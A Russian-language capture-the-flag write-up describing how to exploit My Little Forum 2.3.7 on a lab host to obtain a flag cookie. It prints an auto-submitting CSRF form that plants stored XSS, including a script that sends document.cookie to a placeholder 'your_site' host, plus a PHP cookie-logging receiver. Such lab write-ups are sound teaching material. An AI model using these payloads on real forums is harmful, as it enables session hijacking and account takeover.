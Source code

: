 ﻿# Форум для всех

Веб-сайт:
![Site](/img/4.png)

1. Заходим на форум. Видим, что уже многие пробовали XSS и т.д. Имеем достаточно много инпутов: куки 4 штуки, различные формы и GET запросы. Заставлять участников првоерять их все - очень жестоко.
2. Внизу страницы видим `powered by My Little Forum 2.3.7` Значит это какой-то сторонний движок.
3. Идем в гугл. Вбиваем My Little Forum 2.3.7. Видим, что это уязвимая версия. Переходим к примеру на этот сайт https://www.exploit-db.com/exploits/40676/
4. Читаем про уязвимости. Пробуем первую.
5. Для CSRF и XSS копируем форму с сайта и делаем так, чтобы при переходе на нее автоматически отправляла POST запрос на указанный адрес:
````html
<form action="http://10.0.38.133:61937/index.php?mode=admin&action=edit_page" method="post" accept-charset="utf-8">
<input type="hidden" name="mode" value="admin">
<input type="hidden" name="title" value="Stored XSS 
<script>alert(1)</script>">
<input type="hidden" name="content" value="Stored XSS 
<script>alert(2)</script>">
<input type="hidden" name="menu_linkname" value="<script>var img=new Image();img.src='https://your_site/index.php?'+ encodeURI(document.cookie);</script>">
<input type="hidden" name="edit_page_submit" value="1">
<input type="submit" name="edit_page_submit" value="OK - Save page">
</form>
<body onload="document.forms[0].submit()">
````
PHP код:
```php
<?php
$text = urldecode($_SERVER['QUERY_STRING']);

if (!empty($_SERVER['HTTP_CLIENT_IP'])) 
{
	$ip=$_SERVER['HTTP_CLIENT_IP'];
}
elseif (!empty($_SERVER['HTTP_X_FORWARDED_FOR']))
{
	$ip=$_SERVER['HTTP_X_FORWARDED_FOR'];
}
else
{
	$ip=$_SERVER['REMOTE_ADDR'];
}
$file=fopen("file.txt", "a");
fwrite ($file, $text.PHP_EOL);
fwrite ($file, $ip.PHP_EOL);
fwrite ($file, $_SERVER['HTTP_REFERER'].PHP_EOL);
fclose($file);
?>
```

6. В одно из полей пишем свой XSS, чтобы ловить куки. Нпаример, в поле menu_linkname.
7. Пишем на форуме пост со своей ссылкой.
8. Получаем куку с flag.
